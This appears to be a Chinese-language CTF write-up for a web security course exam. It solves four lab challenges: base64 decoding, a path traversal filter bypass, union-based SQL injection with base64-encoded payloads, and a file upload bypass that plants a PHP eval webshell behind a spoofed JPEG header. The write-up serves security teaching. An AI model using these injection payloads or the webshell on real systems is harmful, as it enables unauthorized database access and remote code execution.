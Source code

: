 ```yaml
---
declare: true
title: Web安全原理 CTF Writeup
categories: [CTF]
tags:
- CTF
- Web

---
```


> Web安全原理期末CTF

## What's your want?

查看题目源代码，没有发现提示。向输入框中输入flag，得到如下结果

![image-20221026083947762.png](https://s2.loli.net/2022/10/26/FMm5dVRODghxWGS.png)

猜测左上角字符串为base64编码，解码得到flag{WelC0me_to_ctf2}

## php is the best

查看index page源代码，得到提示：![image-20221026084137515.png](https://s2.loli.net/2022/10/26/95UKEmk6HbCtzNS.png)

查看another page源代码，得到提示：

![image-20221026084216965.png](https://s2.loli.net/2022/10/26/SK9HoqQT4n3w1Og.png)

可以看到flag在index和another的上级目录，并且后端对输入路径进行了过滤，不能以.开头，也不能出现两个以上的..，因此尝试使用环境变量来获取flag，构建get参数为?file=pwd/../../flag, 得到flag为flag{Bypass_File_Path_Check}

## ID System

URL中有id=MQo=，猜测是base64编码，解码后得到id=1。首先判断数据库中共有多少列，对1 order by 3编码，作为id，请求得到no result。对1 order by 2编码，作为id，得到两个字段，分别为S_ID和1-S_Name，说明flag应该不在这个表中。

尝试获取当前表所在的数据库，使用1 union select 1, database();来对数据库进行联合查询，编码为MSB1bmlvbiBzZWxlY3QgMSwgZGF0YWJhc2UoKTs=，得到![image-20221026085420067.png](https://s2.loli.net/2022/10/26/vCdkaLS1GjE6b3h.png)

说明当前数据库为websec。尝试获取数据库中存在的所有表，使用1 union select 1, group_concat(table_name) from information_schema.tables where table_schema='websec';编码得到MSB1bmlvbiBzZWxlY3QgMSwgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyB3aGVyZSB0YWJsZV9zY2hlbWE9J3dlYnNlYyc7，作为id输入，得到![image-20221026090019609.png](https://s2.loli.net/2022/10/26/vaOiR358ngmVb9K.png)

可以看到其中存在名为flag的表，使用同样方式获取flag中有哪些字段，使用1 union select 1, group_concat(column_name) from information_schema.columns where table_name='flag';，编码后作为id，得到![image-20221026090446857.png](https://s2.loli.net/2022/10/26/c5nqwFXr4jNP93E.png)

看到flag中只有一个value字段，使用1 union select 1, value from flag;编码输入得到![image-20221026090902879.png](https://s2.loli.net/2022/10/26/POrjMTYeNuVySi3.png)

*为什么联合查询需要select 1, group_concat()？因为联合查询要求两部分查找产生的表列数相同，而前面根据order by推断出web_security这个表的有两列，而group_concat和flag都只有一列，因此需要通过select 1, value/group_concat再添加一列。*

## Upload

首先创建webshell文件，写入\<?php @evalOST['pass']);?>，命名为shell.php.查看页面源代码，发现只允许上传jpg和png类型的文件，因此将文件重命名为shell.jpg以绕过前端检查，并使用burpsuite来拦截请求，将文件名重新改为php。

![image-20221026092519517.png](https://s2.loli.net/2022/10/26/2bNeKOwButhQiCG.png)

![image-20221026092851387.png](https://s2.loli.net/2022/10/26/cejm3KwLJuG5fyb.png)

页面报错error file head，说明后端对文件头做了校验，在文件头部添加FFD8FFE0，上传成功。

访问shell.php文件，发现File not found。尝试获取swp文件，在url中输入.index .php.swp，可以获取，通过vi -r打开，可以看到其中有如下几行代码：

![image-20221026094121034.png](https://s2.loli.net/2022/10/26/ok8JWPxtn3C9rZ6.png)

用户上传文件的文件名被重命名为md5加密后的密码.php。对shell.php计算md5，得到25a452927110e39a345a2511c57647f2，访问25a452927110e39a345a2511c57647f2.php文件，得到flag:

![image-20221026094549832.png](https://s2.loli.net/2022/10/26/HDFAbsn35jgNZQq.png)

## REFERENCE

https://blog.csdn.net/qq_35056292/article/details/102896557